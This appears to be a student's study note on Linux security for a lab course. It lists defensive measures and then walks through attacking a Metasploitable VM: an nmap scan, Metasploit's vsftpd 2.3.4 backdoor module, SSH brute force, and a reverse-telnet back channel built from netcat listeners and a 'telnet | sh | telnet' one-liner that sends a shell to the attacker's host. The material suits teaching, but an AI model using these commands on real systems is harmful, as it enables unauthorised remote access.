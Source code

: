 
> [!NOTE] How to gain remote access to linux device?
> Linux has two levels of access: **root** and **user** 
> **Root** remains a single point of attack
> ![[Pasted image 20240608171714.png]]

> [!NOTE] TLDR
> - Linux is a complex system that requires adequate security measures.
> - Once the IP address of a target system is known, an attacker can begin port scanning, looking for security holes in the target system for gaining access.
> - Many remote exploitation techniques may allow attackers to subvert the Linux system and to obtain a shell access.
# Main defense mechanism for Linux systems
defense mechanism for Linux systems:
- **Software Updates**: Patching vulnerabilities is crucial to ensure the latest security fixes. 
- **Firewall**: Act as a gatekeeper. Configure firewalls to block unauthorized incoming and outgoing traffic, restricting access only to essential services and trusted sources. 
- **User Accounts**: The principle of least privilege. Create user accounts with minimal permissions and avoid using the root account for everyday tasks. 
- **Strong Passwords & Authentication**: Enforce strong passwords with complexity requirements and consider two-factor authentication (2FA) for added security. 
- **Secure Shell (SSH)**: Encrypt remote access. Use SSH instead of Telnet to ensure all communication, including passwords, is encrypted during remote administration sessions. 
- **Permissions & Access Control**: Control access to files and directories. Set appropriate permissions (read, write, execute) for users and groups to restrict unauthorized access.




# Linux attacks
**Attackers follow a logical progression:**
1. **First, gain Remote Access via the network**
	1. Typically exploiting a vulnerability in a listening service
2. **Then, have a command shell or login to the system**
	1. Local attacks are also called **Privilege Escalation Attacks**

**First step is to scan the victim remotely**
1. Scan the VM remotely: 
	1. ***nmap -A** \<IP>*
2. You can use the results to search online for related vulnerabilities
	1. E.g., OpenSSH 4.7p1, vsftpd 2.3.4
3. Let’s exploit the vulnerability in vsftpd 2.3.4 to gain remote access

## Exploiting Backdoor in vsftpd 2.3.4
1. Launch Metasploit Framework Console: **# msfconsole**
2. search *Variable*
```shell
>search vsftpd 
>use exploit/unix/ftp/vsftpd_234_backdoor 
>show options 
>set ROSTS 
>run
```
3. You will see that you got shell access to the Metasploitable VM.
4. Verify it by running **ifconfig**
![[Pasted image 20240608172521.png]]
### SSH Brute Force Attack
- The attacker brute forces SSH to login remotely.
- Use Metasploit to gain shell access.
![[Pasted image 20240608172441.png]]

# Reverse telnet and Back Channel
- **Back channel** as a mechanism where the communication channel originates from the target system rather than from the attacking system.
- In **reverse telnet**, telnet is used to create a back channel from the target system to the attackers’ system.

## How does an attacker use Back Channel?
1. The attacker runs the following commands in two separate windows on the attacker’s system **(kali, IP = 10.0.2.4)**
```root
# nc -l -n -v -p 80 
# nc -l -n -v -p 25
```
1. The attacker exploits a vulnerability to run the following command in the target system **(metasploitable, IP = 10.0.2.5)**
```root
# telnet 10.0.2.4 80 | sh | telnet 10.0.2.4 25
```

**Response:**
```root
Trying 10.0.2.4.
Connected to 10.0.2.4.
Escape character is '^]'
sh: line 1: Trying: command not found
sh: line 2: Connected: command not found
sh: line 3 Escape: command not found
```

3. Now the attacker’s shell windows are connected to the target system
4. The attacker runs a command in the first window on the attacker’s system. The target system reads the commands, executes it locally, and it returns the result to the second window of the attacker
![[Pasted image 20240608173037.png]]
![[Pasted image 20240608173045.png]]


